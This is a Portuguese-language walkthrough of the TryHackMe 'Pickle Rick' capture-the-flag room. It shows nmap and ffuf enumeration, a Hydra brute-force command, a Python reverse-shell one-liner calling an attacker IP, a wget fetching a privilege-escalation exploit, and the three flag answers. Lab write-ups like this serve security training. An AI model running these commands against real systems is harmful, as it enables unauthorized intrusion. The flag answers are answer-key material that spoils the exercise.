

# Sala picklerick do TryHackMe

Essa sala Pickle Rick do TryHackMe tem como objetivo fazer com que o pentester pense fora da caixa e que consiga bypassar algumas situações 


# Description

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: MACHINE_IP

You can also access the web app using the following link: https://LAB_WEB_URL.p.thmlabs.com (this will update when the machine has fully started)

# Requisitos para invasão
- [x] BurpSuite


# Tela inicial do Lab

Aqui encontramos o problema, que o rick perdeu sua senha. Então provavelmente teremos que acessar uma tela de login.


Vamos observar o código fonte da página 

#### HTML code
```html

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Rick is sup4r cool</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="assets/bootstrap.min.css">
  <script src="assets/jquery.min.js"></script>
  <script src="assets/bootstrap.min.js"></script>
  <style>
  .jumbotron {
    background-image: url("assets/rickandmorty.jpeg");
    background-size: cover;
    height: 340px;
  }
  </style>
</head>
<body>

  <div class="container">
    <div class="jumbotron"></div>
    <h1>Help Morty!</h1></br>
    <p>Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!</p></br>
    <p>I need you to <b>*BURRRP*</b>....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is,
    I have no idea what the <b>*BURRRRRRRRP*</b>, password was! Help Morty, Help!</p></br>
  </div>

  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->

</body>
</html>

```

Análisando o códifo fonte, encontramos o usuário do Rick que é o R1ckRul3s

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```


Nesse periodo em paralelo, realizei um scan para buscar por novas informações do alvo

```
nmap 10.10.195.34
```


E também tentei me conectar via SSH
```
ssh -v R1ckRul3s@10.10.195.34
```


E uma enumeração de diretorios através do ffuf


```

ffuf -c -w /usr/share/dirb/wordlists/common.txt -u http://10.10.195.34/FUZZ -e '.php','.html','.csv','.xls','.xlsx'

```
Encontramos uma página chamada login.php e um robots.txt


Entrando aqui na tela de login, deixei um bruteforce rodando  em paraleo

Tela de login



Hydra

```
hydra -l R1ckRul3s -P /usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt   10.10.195.34 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password."
```


Depois de esperar um bom tempo de bruteforce, decidir entrar no robots.txt e esse conteúdo do robots.txt era  meio estranho

```
Wubbalubbadubdub
```

Tentando logar com o usuário
R1ckRul3s e senha Wubbalubbadubdub. Consigo logar no sistema.


Tentando um ls -la no command panel achamos o primeiro ingrediente


Respota aqui 


```
mr. meeseek hair
```

Precisamos pegar uma shell melhorada para avançar para os próximos ingredientes, então executei o comando


```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.0.28",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Shell


Trocando de diretorios encontramos o segundo ingrediente

```
1 jerry tear
```

Subindo shell para escalar privilegio


Computador do atacante
```
python -m http.server
```

Computador do alvo
```
wget http://10.9.0.28:8000/CVE-202104034.PY
```

E agora, só rodar o exploit e escalar privilegio


Com acesso root e procurando o terceiro ingrediente achamos na pasta do root


```
fleeb juice
```

Máquina completa :
